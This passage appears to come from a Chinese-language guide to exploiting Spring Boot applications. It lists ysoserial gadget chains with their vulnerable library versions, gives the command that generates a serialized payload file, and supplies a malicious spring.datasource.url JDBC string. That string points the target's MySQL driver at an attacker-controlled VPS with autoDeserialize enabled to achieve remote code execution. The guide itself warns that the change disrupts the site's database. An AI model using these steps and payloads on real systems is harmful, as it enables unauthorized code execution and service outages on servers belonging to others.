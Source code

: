 ```
     CommonsCollections4 @frohoff                    commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner commons-collections:3.1
     CommonsCollections6 @matthias_kaiser            commons-collections:3.1
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1         @mbechler                   commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                    groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser            javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                   json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser            javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711 jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser            js:1.7R2
     MozillaRhino2       @_tint0                     js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                   rome:1.0
     Spring1             @frohoff                    spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                   spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines               wicket-util:6.23.0, slf4j-api:1.6.4
```



```bash
java -jar ysoserial.jar (payload)  > payload.ser
```

在脚本**同目录下**生成 `payload.ser` 反序列化 payload 文件，供脚本使用。



**步骤三：设置 spring.datasource.url 属性**

> ⚠️ 修改此属性会暂时导致网站所有的正常数据库服务不可用，会对业务造成影响，请谨慎操作！



mysql-connector-java 5.x 版本设置**属性值**为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```
